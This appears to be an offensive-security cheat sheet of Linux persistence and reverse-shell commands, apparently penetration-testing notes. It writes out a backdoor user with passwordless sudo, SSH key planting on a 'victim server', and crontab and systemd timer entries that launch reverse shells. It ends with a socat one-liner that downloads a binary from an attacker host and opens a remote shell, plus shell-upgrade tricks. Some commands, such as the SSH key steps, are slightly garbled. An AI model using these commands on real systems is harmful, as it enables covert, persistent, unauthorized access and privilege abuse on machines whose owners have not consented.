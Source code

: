 basic reverse shells [revshell generator](https://www.revshells.com/)

[art of linux persistence](https://hadess.io/the-art-of-linux-persistence/)

## add user

```
echo -e "drowssap\\drowssap\\" | useradd dev; usermod -aG sudo dev; echo "dev ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

## SSH Persistence

[generate an ssh key on attacker server](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent)

on attacker server
```
echo "./user_rsa" | ssh-keygen -t rsa -b 4096 -C "your_email@example.com"; chmod 600 ./user_rsa; cat ./user_rsa.pub
```

on victim server
```
echo "" >> ~/.ssh/authorized_keys
```

on attacker server
```
ssh -i id_rsa user@${box_ip}
```

## crontab / cronjob reverse shells (every minute)

nano /etc/crontab

```
* * * * *    /lib/systemd/revshell.sh
* * * * *    /usr/bin/revshell.sh
* *  * * *  root  /opt/revshell.sh
```

### systemd malicious service

nano /etc/systemd/system/malicious.service

```
[Unit]

Description=Bad service

[Service]

ExecStart=/opt/shell.sh
```

then create a malicious systemd timer to run that service

nano /etc/systemd/system/malicious.timer

```
[Unit]

Description=malicious timer

[Timer]

OnBootSec=5

OnUnitActiveSec=5m

[Install]

WantedBy=timers.target
```

make sure to start the service and enable it to make it working 

```shell

# systemctl daemon-reload 

systemctl enable malicious.timer

systemctl start malicious.timer

```


## upgrade revserse shells


**improve screen**

```
export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

**python**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


**socat** - [get socat here](https://github.com/andrew-d/static-binaries)

```bash
(load onto target box)

wget -q https://10.10.10.10:8000/socat -O /tmp/socat; chmod +x /tmp/socat

(listener)

socat file:`tty`,raw,echo=0 tcp-listen:4444

(target box)

/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

(target oneliner)

wget -q https://10.10.10.10:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

**stty**

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows 38 columns 116
```